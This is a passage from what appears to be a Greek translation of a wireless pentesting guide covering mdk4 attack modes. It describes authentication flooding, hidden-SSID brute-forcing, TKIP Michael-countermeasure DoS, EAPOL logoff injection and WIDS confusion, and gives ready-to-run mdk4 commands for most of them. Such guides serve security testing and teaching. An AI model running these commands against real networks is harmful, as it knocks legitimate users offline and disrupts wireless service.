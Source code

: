 Η αποστολή πλαισίων αυθεντικοποίησης σε όλα τα προσβάσιμα Σημεία Πρόσβασης (APs) εντός εμβέλειας μπορεί να υπερφορτώσει αυτά τα APs, ειδικά όταν εμπλέκονται πολλοί πελάτες. Αυτή η έντονη κίνηση μπορεί να οδηγήσει σε αστάθεια του συστήματος, προκαλώντας σε ορισμένα APs να κολλήσουν ή ακόμη και να επαναρυθμιστούν.
```bash
# -a BSSID send random data from random clients to try the DoS
# -i BSSID capture and repeat pakets from authenticated clients
# -m use real MACs
# only -a or -i can be used
mdk4 wlan0mon a [-i EF:60:69:D7:69:2F] [-a EF:60:69:D7:69:2F] -m
```
**ATTACK MODE p: SSID Probing and Bruteforcing**

Η διερεύνηση των Σημείων Πρόσβασης (APs) ελέγχει αν ένα SSID αποκαλύπτεται σωστά και επιβεβαιώνει την εμβέλεια του AP. Αυτή η τεχνική, σε συνδυασμό με **bruteforcing κρυφών SSIDs** με ή χωρίς λίστα λέξεων, βοηθά στην αναγνώριση και πρόσβαση σε κρυμμένα δίκτυα.

**ATTACK MODE m: Michael Countermeasures Exploitation**

Η αποστολή τυχαίων ή διπλών πακέτων σε διαφορετικές ουρές QoS μπορεί να ενεργοποιήσει τα Michael Countermeasures σε **TKIP APs**, οδηγώντας σε διακοπή του AP για ένα λεπτό. Αυτή η μέθοδος είναι μια αποτελεσματική τακτική επίθεσης **DoS** (Denial of Service).
```bash
# -t <BSSID> of a TKIP AP
# -j use inteligent replay to create the DoS
mdk4 wlan0mon m -t EF:60:69:D7:69:2F [-j]
```
**ATTACK MODE e: EAPOL Start and Logoff Packet Injection**

Η πλημμύρα ενός AP με **EAPOL Start frames** δημιουργεί **ψεύτικες συνεδρίες**, κατακλύζοντας το AP και μπλοκάροντας τους νόμιμους πελάτες. Εναλλακτικά, η έγχυση **ψεύτικων EAPOL Logoff messages** αποσυνδέει βίαια τους πελάτες, και οι δύο μέθοδοι διαταράσσουν αποτελεσματικά την υπηρεσία δικτύου.
```bash
# Use Logoff messages to kick clients
mdk4 wlan0mon e -t EF:60:69:D7:69:2F [-l]
```
**ATTACK MODE s: Επιθέσεις για δίκτυα πλέγματος IEEE 802.11s**

Διάφορες επιθέσεις στη διαχείριση συνδέσεων και δρομολόγησης σε δίκτυα πλέγματος.

**ATTACK MODE w: Σύγχυση WIDS**

Η διασύνδεση πελατών σε πολλαπλούς κόμβους WDS ή ψεύτικα κακόβουλα APs μπορεί να χειραγωγήσει τα Συστήματα Ανίχνευσης και Πρόληψης Εισβολών, δημιουργώντας σύγχυση και πιθανή κακή χρήση του συστήματος.
```bash
# -z activate Zero_Chaos' WIDS exploit (authenticates clients from a WDS to foreign APs to make WIDS go nuts)
mkd4 -e <SSID> -c <channel> [-z]
```
**ΜΟΝΤΕΛΟ ΕΠΙΘΕΣΗΣ f: Packet Fuzzer**

Ένας packet fuzzer με ποικιλία πηγών πακέτων και ένα ολοκληρωμένο σύνολο τροποποιητών για την επεξεργασία πακέτων.

### **Airggedon**
